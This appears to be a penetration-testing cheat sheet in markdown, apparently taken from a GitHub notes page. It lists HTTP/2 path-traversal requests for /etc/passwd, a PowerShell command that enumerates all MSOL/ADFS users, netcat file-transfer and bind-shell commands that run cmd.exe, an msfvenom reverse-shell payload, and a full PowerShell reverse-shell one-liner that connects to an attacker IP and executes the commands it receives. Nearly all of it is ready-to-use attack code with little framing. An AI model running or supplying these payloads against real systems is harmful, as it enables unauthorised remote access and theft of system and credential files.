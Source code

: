 	HTTP2 https://www.youtube.com/watch?v=YHOnxlQ6zec

	In wireshark: http2.data.data && http2 contains username
	nghttp -v -u http://http2.sec642.org/../../../../etc/passwd doesn't work, need to be encoded
	curl2 --http2 http://http2.sec642.org/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
	curl --http2-prior-knowledge --data "status=on" http://localhost:8080/index.ph

## ADFS:

```$msolcred = get-credential
connect-msolservice -credential $msolcred
Get-MsolUser -All | ft -AutoSize
```

## Netcat Shells

### Interact with a service

#### Pop Mail
```
Kali                    nc -nv 192.168.152.10 110
```
#### Chat
```
Kali                    nc -nv 192.168.152.10 4444
Windows                 nc.exe -nlvp 4444
```

### File Transfer
```
Kali                    nc -nv 192.168.152.10 4444 < /usr/share/windows-binaries/wget.exe
Windows                 nc.exe -nlvp 4444 > wget.exe
There is no output letting you know when the transfer is complete
```

### Bind shell - Windows
Windows *listens on port 4444, runs cmd.exe*

```
Windows                 nc.exe -nlvp 4444 -e cmd.exe
Kali                    nc -nv 192.168.152.10 4444                        
```

### Reverse shell

#### Windows msfvenom exe reverse
```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.152 LPORT=40000 -f exe > tpc_rev_40000.exe
```
#### Powershell Reverse Shell One Liner

##### Windows Host
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.119.152",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
